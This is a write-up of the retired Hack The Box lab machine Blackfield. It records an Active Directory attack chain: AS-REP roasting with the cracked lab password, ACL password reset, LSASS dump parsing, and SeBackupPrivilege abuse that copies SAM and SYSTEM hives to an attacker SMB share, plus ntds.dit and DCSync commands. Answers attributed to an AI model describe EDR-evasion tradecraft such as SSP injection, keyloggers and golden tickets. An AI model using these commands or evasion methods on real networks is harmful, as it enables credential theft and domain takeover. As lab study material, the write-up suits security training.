




### Info:
- Name: **Blackfield**
- OS: **Windows**
- Type: **Unauthenticated**
- Difficulty: **Hard**
- Status: **Retired**

### Content:
- [**`testing.md`**](https://github.com/cac3r/htb_machines/blob/main/blackfield/testing.md)                - Raw notes / working log
- [**`report.pdf`**](https://github.com/cac3r/htb_machines/blob/main/blackfield/report.pdf)                - Professional report
- [**`attack_chain.png`**](https://github.com/cac3r/htb_machines/blob/main/blackfield/attack_chain.png)   - Attack chain diagram
- `screenshots/`           - Supporting screenshots

---
---
### Brief:
#### Initial access: Usernames disclosure + AS-REP roasting
Starting the test against the target system DC01 unauthenticated. After network/host reconnaissance, enumerating shares as `guest` can READ `profiles$` share. Connected to this share listing contents notice several directories with potential domain usernames as directory names, copy all names and convert to a clean user wordlist. Using kerbrute to validate this users via kerberos auth, turns out with 3 valid users: `audit2020`, `svc_backup`, `support`. Checking for users with No-PreAuth set, using impacket tool getNPUsers, discover `support` have `UF_DONT_REQUIRE_PREAUTH` set, enabling to request TGT without a password required, capturing the user ASREP, and so its Net-NTLMv2 hash. This hash is cracked using mode 18200 (`$krb5asrep$23$`), obtaining plaintext password for `support`: `#00^BlackKnight`. Credential is confirmed valid.
#### Pivot -> `audit2020`: ACL `ForceChangePassword` inbound control from `support`
Enumerating Domain with BloodHound. Using rusthound collector and BH CE locally deployed web for graphic analysis. Discover owned account `support` has ForceChangePassword permission over `audit2020`, simply setting a new password remotely with `net`. 
#### Pivot -> `svc_backup`: LSASS dump in readable share
Enumerating shares as `audit2020` discover READ permission over `forensic` share. This share contains a ZIP file `lsass.zip` that presents the LSASS memory "snapshot" file `lsass.DMP`. Save this file to local system and employ pypykatz tool to parse it offline and read its contents, saving NT hashes for `svc_backup`, `DC01$` and `Administrator`. The `scv_backup` NT hash is confirmed valid and, as it has Remote Management rights, Pass-the-Hash to establish a connection to the target DC01 via WinRM (Evil-WinRM for Linux).  *(user.txt)*
#### Privilege Escalation: `SeBackupPrivilege` abuse
Enumerating local privileges as `svc_bakcup` discover `SeBackupPrivilege`. This privilege permits to copy system files (as doing a backup), enabling to copy and save registry hives SAM (containing local users password hashes) and SYSTEM (containing system configuration -> boot key / syskey to decrypt SAM), decrypted and read using impacket's secretsdump, disclosing the Administrator NTLM hash. This hash (NTLM and NT part) is validated using tools like NetExec and Evil-WinRM Pass-the-Hash functions, but out of timeouts, non responsive execution and unexpected errors unable to confirm or deny whether the Administrator NTLM hash is valid.

---
---
### Techniques:
- Validating list of usernames via Kerberos (with Kerbrute)
- Enumerating users with No-PreAuth set -> AS-REP roasting
- ACL, ForceChangePassword abuse -> Change password
- Read contents of lsass.dmp (with pypykatz, Linux)
- Abusing SeBackupprivilege / SeRestorePrivilege -> Copy SAM, system, ntds.dit

---
---
### Lesson:
### Read contents of lsass.dmp (with pypykatz, Linux)

pypykatz: https://github.com/skelsec/pypykatz

Confirm type of file

```
file lsass.DMP
```



Mini Dump

```
pypykatz lsa minidump lsass.DMP
```



In this example only needed to read/parse it, having the file already. But, obtaining it is the hard part.
##### When it can be extracted

1. **You have admin/SYSTEM on a Windows host** (via prior exploitation/privesc).
2. **LSASS isn't fully protected** — note modern defenses: **LSA Protection (RunAsPPL)** and **Credential Guard** can block or hinder dumping on hardened/modern systems. On those you need additional bypasses. On older/unhardened boxes (and most CTF/exam targets), LSASS dumps freely once you're admin.
3. **You evade/accept AV** — LSASS dumping is _extremely_ noisy and heavily monitored by EDR/AV (it's a top detection signal). On real engagements this matters; on labs/exam less so.

Example with nxc:
**nxc/crackmapexec** — `nxc smb <host> -u admin -H <hash> -M lsassy` or `--lsa` (dumps remotely _from Linux_, given admin creds).

---
### Abusing SeBackupPrivilege / SeRestorePrivilege -> Copy SAM, system, ntds.dit

Enumerating controlled account privileges

```
whomai /priv
```



SeBackupPrivilege and SeRestorePrivilege

Copy and save SAM

```
reg save hklm\sam .\sam.save
```

Copy and save system

```
reg save hklm\system .\system.save
```

Download to local system

Via evil-winrm shell:

```
download sam.save
```
```
download system.save
```

(system can take a bit to download)

If problems downloading system file, use smbserver:

```
impacket-smbserver -smb2support "share" ./
```

On target machine

```
cp .\*.save \\10.10.14.204\share\
```

Dumping credentials

```
impacket-secretsdump -sam sam.save -system system.save LOCAL
```



Sources:

https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/

https://notes.lfgberg.org/windows/privesc/SeBackupPrivilege

##### Alternatives for ntds.dit:

*(Claude Opus 4.8)*
**Option A — `wbadmin`** (Windows Backup):

```
wbadmin start backup -backuptarget:\\path -include:c:\windows\ntds
```

then recover ntds.dit from the backup.

**Option B — the SeBackupPrivilege PowerShell modules** — there are published `SeBackupPrivilegeUtils`/`SeBackupPrivilegeCmdLets` DLLs that let you copy protected files directly using the privilege:

```powershell
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
Copy-FileSeBackupPrivilege 'C:\Windows\NTDS\ntds.dit' 'C:\temp\ntds.dit'
```

This is often _simpler and more reliable_ than diskshadow.

**Option C — `reg save` for the hives + shadow for NTDS**, or do the whole thing remotely with `nxc`:

```
nxc smb <host> -u user -p pass -M ntdsutil
```

Automates the NTDS extraction remotely.

---
#### Questions & Answers:

Question #1: Since LSASS memory updates with new logins, in real engagements, the attacker may dump LSASS periodically to observe any new entries?

*(Claude Opus 4.8 response)*
##### The core problem: LSASS dumping is extremely "loud"

Here's the thing that reshapes your idea — **dumping LSASS is one of the single most-detected actions in all of offensive security.** Every modern EDR (endpoint detection) heavily monitors for LSASS access, because it's such a known credential-theft technique. So:

- Dumping LSASS **once** already risks detection.
- Dumping it **periodically** (your idea) would be _repeatedly_ triggering one of the loudest alarms in the environment — practically guaranteeing you get caught.

So in a _real_ engagement against a defended target, "dump LSASS every hour to catch new logins" would be a fast way to burn your access, not maintain it. The periodic-dumping approach is too noisy to be good tradecraft.

##### What attackers actually do instead

**1. Credential harvesting that's passive/continuous, not repeated-dump:**

- **Mimikatz's `sekurlsa` in-memory** — read credentials without writing a dump file to disk (stealthier than dumping to a `.dmp` and parsing).
- **SSP injection / memssp** — register a malicious Security Support Provider so that _future_ logins have their cleartext credentials captured _as they happen_, logged quietly. This is the elegant version of your idea: instead of _polling_ LSASS repeatedly, you _hook_ it once so new credentials flow to you automatically.
- **Keyloggers** — capture credentials as users type them.

**2. Get the "master keys" once, then you don't need to poll:**

- The real endgame isn't watching for individual logins — it's grabbing **NTDS.dit / the krbtgt hash** (which you were working toward!). Once you have **krbtgt**, you can forge **golden tickets** — authenticate as _anyone_ in the domain, anytime, without needing to catch their credentials. That's far more powerful than periodically dumping LSASS hoping a domain admin logs in. You _become_ able to impersonate everyone, permanently (until krbtgt is rotated twice).
- So attackers aim for the **domain-wide secret** rather than polling individual machines.

**3. DCSync** — instead of dumping LSASS on many machines, if you have the right rights, **DCSync** pulls any user's hash directly from the domain controller (mimicking replication) — one quiet query gets you _any_ account's hash, no LSASS dumping at all.

**Timing matters** — attackers _do_ think about _when_ to harvest: dumping LSASS right after a scheduled admin task runs, or when you know a privileged user logs in (e.g., during business hours), to catch high-value credentials _when they're present in memory_. So "harvest at the right moment" is real — it's just surgical (dump once, at the right time) rather than periodic (dump repeatedly).

............................................................................................................................................................................................................................................

Question #2: What if the `DC01$` machine account NT hash recovered from LSASS dump would have been valid?

*(Claude Opus 4.8 response)*

When you discover a **machine account NT hash**, especially a **Domain Controller's**, here's the decision tree for "what next":

**If it's a Domain Controller machine account (`DC01$`) and the hash is current → DCSync.**  
This is the big one. A DC's machine account has **domain replication rights**, so you use it to replicate the entire directory and dump _all_ domain hashes (krbtgt, Domain Admins, everyone):

```
secretsdump.py -hashes :<dc01$_hash> 'DOMAIN/DC01$@<dc-ip>'
```

or

```
nxc smb <dc-ip> -u 'DC01$' -H <hash> -M ntdsutil
```

This is domain compromise — krbtgt hash lets you forge golden tickets, DA hashes give full control. **A valid DC machine account hash = game over for the domain.** So the move isn't "log in via SMB" — it's "DCSync to own the domain."

**If it's a _regular_ machine account (`WORKSTATION01$`, not a DC) → more limited, but:**

- **Silver tickets** — forge service tickets for services _on that machine_ (the machine account can authorize tickets for its own services).
- **Resource-based constrained delegation (RBCD)** attacks, if applicable.
- **S4U / delegation abuse** depending on the account's configuration.
- Generally less powerful than a DC's, but still useful for targeted attacks on that host's services.

---
#### Takeaway
- Parse and read a LSASS dump file offline (`lsass.DMP`)
- Abuse `SeBackupPrivilege` -> Copy SAM, SYSTEM, SECURITY, ntds.dit
- DiskShadow and alternatives to extract ntds.dit
Notes:
- Extracting LSASS dumps is very noisy and detectable, be aware on real targets
- Valid DC machine account hash -> DCSync
